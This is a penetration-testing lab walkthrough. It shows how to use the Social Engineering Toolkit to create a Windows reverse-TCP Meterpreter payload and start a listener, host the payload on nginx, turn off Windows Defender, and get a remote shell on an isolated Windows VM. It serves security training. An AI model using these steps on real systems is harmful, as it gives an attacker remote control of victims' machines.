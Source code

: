 - [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how establish a Meterpreter shell on a Windows target using SET.

**Lab Purpose:**

SET (Social Engineering Toolkit) is designed to perform advanced cyber security attacks against the human element. It is an open-source tool developed in Python aimed at penetration testing around social engineering.

**Lab Tool:**

Kali Linux and Windows

**Lab Topology:**

You can use Kali Linux in a VM and a Windows machine for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be looking at how to create a Metasploit payload using SET, and then establish a Meterpreter shell using this payload. This payload can be run on the victim machine to provide us with a Meterpreter shell on that machine. We will be targeting a Windows machine in a virtual machine for this lab. You can find pre-installed Windows VM images from Microsoft’s links below:

https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/

https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/

After Windows VM installation is completed, put this machine into the same “Host-Only Network” with Kali VM to isolate attacks/scans from your real network.

![virtual machine](attachements/virtual_machine.png)

### Task 2:

Before moving on to the next step, we need to put Kali VM into the “Host-Only Network”. Since Kali will be disconnected from the internet, you will see errors at the top of the command menus. However, it will not be a problem for us. To begin, open SET in Kali VM by typing the following:

sudo setoolkit

The attack we will be conducting involves creating a payload and can be found under the first menu, “Social-Engineering Attacks”. To choose this menu, type 1.

We will then be presented with another menu. Once here, we will be choosing option 4, “Create a Payload and Listener”. Select this option by typing 4 and hitting enter.

![sudo setoolkit](attachements/sudo_setoolkit.png)

We will be presented with another menu here which will ask us what kind of payload we wish to create. For this lab, we will be choosing option 2, “Windows Reverse_TCP Meterpreter”. Type 2 and hit enter.

We will then be asked for the IP address which the target will connect to when the payload is run. Open another terminal screen in Kali VM, then simply type an “ifconfig” command to learn the IP address of eth0 interface. Return to setoolkit screen, enter this IP address below and press enter (1).

![setoolkit](attachements/setoolkit.png)

Next, you will be asked for a port. I have chosen port 5555 for this lab, but you can choose any port (2). Once you enter the port, SET will begin generating the payload. Once this is done, SET will ask if you want to start the payload and listener now. Type yes and hit enter (3). Our created payload file can be found this path “/root/.set/payload.exe” in Kali VM.

SET will now launch Metasploit and begin a listener for us using the information we provided for the payload. This is an easier way of creating a Metasploit payload and starting a listener.

![Metasploit](attachements/Metasploit-4.png)

### Task 3:

When the listener is started, transfer the payload file to your Windows virtual machine. It will be called “payload.exe” or something similar. In order to transfer this file to the Windows machine easily, we will run nginx web server in Kali VM and download the file from within Windows. Open a terminal screen in Kali VM then type these commands:

sudo cp -v /root/.set/payload.exe /var/www/html/

sudo nginx

Now, switch to Windows VM, open a browser. Type this URL into the address bar (1):

[http://192.168.56.103/payload.exe](http://192.168.56.103/payload.exe)

![Windows VM](attachements/Windows_VM.png)

192.168.56.103 is the IP address of Kali VM in this instance.

Ensure that “Windows Defender” is turned off so that the payload can run effectively. Then, with the listener running in Metasploit, download and execute the payload in the Windows VM (2).

![Metasploit](attachements/Metasploit-3.png)

Return to your Kali VM and you will find that we have a Meterpreter shell on the target.

To view the different sessions/shells you have running in Metasploit, type sessions. To interact with the established Meterpreter shell, type:

sessions -i 1